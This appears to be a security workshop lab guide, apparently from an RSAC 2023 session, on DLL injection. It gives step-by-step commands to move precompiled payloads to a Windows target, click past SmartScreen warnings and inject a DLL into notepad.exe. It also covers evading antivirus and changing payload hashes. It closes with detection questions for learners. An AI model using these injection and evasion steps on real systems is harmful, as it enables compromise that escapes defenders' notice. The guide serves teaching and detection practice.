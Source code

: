 # DLL injection

This one is a bit different, payloads are not written in go, and we will not be generating new ones. The same ideas apply to evastion of changing the literal strings, having minimal extraneous code. However, these are compiled with cpp and nim.  Experiementally, even though this is a very generic technique, stock defender did not catch the files, or the execution at the time of creation. <--That is my disclaimer in case this doesn't work!!!\

## Download Payloads.

1. In the Attack Desktop, open a terminal, navigate to the  ironcat_attack/process_execution folder.
`cd /home/pslearner/workshop/ironcat_attack/process_execution`

2. Notice the already compiled injectdll.exe file, as well as the evilm64.dll payload.

3. Time to move the payload over to the Windows Target. Host the file using python http simple server.
`python3 -m http.server`

4. Use the drop down in the top left to connect to the **Windows Target** device.

6. Open a firefox browser window and browse to http:172.31.24.10:8000

7. Click the two files mentioned above to download it to the device.

8. If there are warnings from smart screen, acknoledge them and choose "keep anyway"
Note: this is not the same service as windows defender, it is an artifact of us using the browser to move it over, not the payload being caught by anti-virus.

9. Open command prompt and change directory to the downloads folder.
`cd c:\Users\pslearner.PS-WIN-1\Downloads`
10. Move the evilm64.dll file to the c:\Users\Public\Desktop location.
`cp evilm64.dll c:\Users\Public\Desktop`
11. Run an instance of notepad.exe to inject into.
`notepad.exe`
12. Run `tasklist` and look for **notpad.exe**. Identify the PID or 4 digit number associated with the running process.
13. Run injectdll.exe with the PID from notepad.exe as an argument. ex. `injectdll.exe 4564`
Profit.

## Questions To Ask
Did I get any alerts.
How would I know a process had a DLL injected?
What IOCs could you monitor for to look for this activity?

It is up to you and your tools on this one.  We can discuss as a group, but it is likely time to wrap it up! Thank you for coming.

All of this including the lab will be available all week. Feel free to play around with these tools, pull down the project for use back home, and even modifiy some of the IOCs in the code we talked about.

Remember you CAN use catamorph in this same repo to rapidly modify the exe with identifiable IOCs and a new hash without a development enviornment.


[Become The Threat Home](../../RSAC23-Become-The-Threat/README.md)